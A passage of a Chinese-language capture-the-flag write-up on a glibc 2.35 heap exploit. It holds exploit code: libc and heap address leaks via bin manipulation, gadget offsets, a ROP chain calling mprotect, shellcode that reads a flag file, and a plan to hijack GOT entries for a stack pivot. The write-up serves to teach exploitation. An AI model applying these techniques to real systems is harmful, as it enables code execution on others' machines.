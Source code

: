 ```Python
#注：libc用的Ubuntu22.04默认的libc，即GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3) stable release version 2.35.
add(0x550) #p1
add(0x590)
add(0x540) #p2
delete(1) #再add一次就进large_bins
add(0x590)
delete(3) #unsorted_bins
show(1)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x21a120
p.recv(10) #接收Llibc后有10字节我们不需要的数据，直接舍掉
heap = u64(p.recv(6).ljust(8,b'\x00'))
heap_base = heap - 0x1950
```

此刻，我们获得了基地址，想要使用orw，我们需要合适的gadget，在ROP链里我们需要使用的函数只有`mprotect`，与之相关的寄存器有`rdi,rsi,rdx`，所以我们直接通过相对偏移获得即可并构造ROP链

```Python
pop_rdi = libc_base + 0x2a3e5
pop_rsi = libc_base + 0x2be51
pop_rdx_r12 = libc_base + 0x11f497
New_orw = p64(pop_rdi) + p64(heap - 0x950) + p64(pop_rsi) + p64(0x1000) + p64(pop_rdx_r12) + p64(7) + p64(0) + p64(mprotect) + p64(heap+0x78)
New_orw += asm(shellcraft.pushstr('./flag') +  shellcraft.openat2(-100, 'rsp', heap_base+0x3000, 0x30) + shellcraft.sendfile(1, 3, 0, 0x1000))
```

ROP链构造好后，我们需要思考的就是**如何调用到它**。这时候就用得上我们的`GOT[0],GOT[1],strlen@got.plt`了。我们可以在libc里边清楚地看到在`.got.plt`段中，这三个是**紧挨在一起**的。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-c261fbd2c331d6c4119b9c0fb86eec503789a076.png)

再加上前面我们**有部分地址写**，那么我们可以构造出通过修改`GOT[0],GOT[1],strlen@got.plt`来进行调用，实现栈迁移调用ROP链

首先看正常的首次调用链

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-53258e75c8b085fc5f891d1d2ac789e637234fcc.png)

如果我们对调用链进行这样的修改

```Python
[_GLOBAL_OFFSET_TABLE_ + 8]  = heap_under_controlled
[_GLOBAL_OFFSET_TABLE_ + 16] = pop_rsp_.....
strlen@got.plt----&gt; addr : push    cs:_GLOBAL_OFFSET_TABLE_ + 8     #addr位于plt段中，用来调用_GLOBAL_OFFSET_TABLE_ + 8
```

那么这串链子就会变成如下图所示

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-f07c369cf53cddf2153cf493a6217ec917cdabd9.png)

如果我们**在可控堆内完成了布局**，在栈迁移时跳转到堆的时候就等同于调用了ROP链，只需要一路前进即可

所以我们需要在`write_whatever`函数体内完成地址的修改
